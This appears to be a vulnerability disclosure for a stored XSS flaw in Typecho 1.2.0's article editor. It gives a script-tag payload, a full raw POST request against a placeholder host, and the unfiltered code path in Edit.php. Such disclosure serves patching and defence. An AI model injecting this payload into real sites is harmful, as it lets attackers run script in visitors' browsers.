




# Typecho 1.2.0 has XSS vulnerability

## Link

https://github.com/typecho/typecho



## Introduction

Typecho articles are published where lax filtering of incoming data can lead to XSS vulnerabilities

## Detailed

Populate the content in a text editor

`<script src="data:\xD4\x8F,javascript:alert(123321)"></script>`




**payload**

```
POST /typecho/index.php/action/contents-post-edit?_=53c61b4b3296de840a7dc514687fb4fb HTTP/1.1
Host: vul.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 332
Origin: http://vul.com
DNT: 1
Connection: close
Referer: http://vul.com/typecho/admin/write-post.php?cid=3
Cookie: da522a5859794787fa921776823628bc__typecho_uid=1; da522a5859794787fa921776823628bc__typecho_authCode=%24T%24d1YTd8gsb03f3d7a14c5bfe94bcd585468625d727; PHPSESSID=snciv7veiprhi1ej7et1qoelhv
Upgrade-Insecure-Requests: 1

title=1&text=%3Cscript+src%3D%22data%3A%5CxD4%5Cx8F%2Cjavascript%3Aalert%28123321%29%22%3E%3C%2Fscript%3E&fieldNames%5B%5D=&fieldTypes%5B%5D=str&fieldValues%5B%5D=&cid=3&markdown=1&date=2022-10-15+15%3A51&category%5B%5D=1&tags=&visibility=publish&password=&allowComment=1&allowPing=1&allowFeed=1&trackback=&do=publish&timezone=28800
```

Reading the article after publishing triggers the XSS vulnerability



## Hazardous file location

var/Widget/Contents/Post/Edit.php



`writePost` function adds markdown file format to the parameter values passed in from text

`self::pluginHandle()->write($contents, $this)`Save the file

The dangerous keywords in the input content are not filtered, resulting in XSS vulnerabilities
